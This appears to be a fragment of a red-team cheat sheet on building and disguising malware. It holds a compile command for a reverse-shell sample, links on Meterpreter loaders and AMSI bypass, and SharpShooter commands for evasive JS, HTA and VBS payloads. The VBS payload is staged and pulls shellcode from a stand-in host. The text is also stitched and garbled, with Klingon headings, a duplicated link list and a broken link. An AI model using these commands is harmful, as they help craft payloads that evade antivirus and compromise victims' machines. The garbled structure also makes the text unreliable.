 C# obfuscators list: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++
```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
* [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
* [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
* [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
* [https://github.com/l0ss/Grouper2](ps://github.com/l0ss/Group)
* [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
* [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)

### tlhIngan Hol translation:

* [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
* [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
* [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
* [https://github.com/l0ss/Grouper2](ps://github.com/l0ss/Group)
* [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
* [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)

### lo'wI'vam:
```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
```
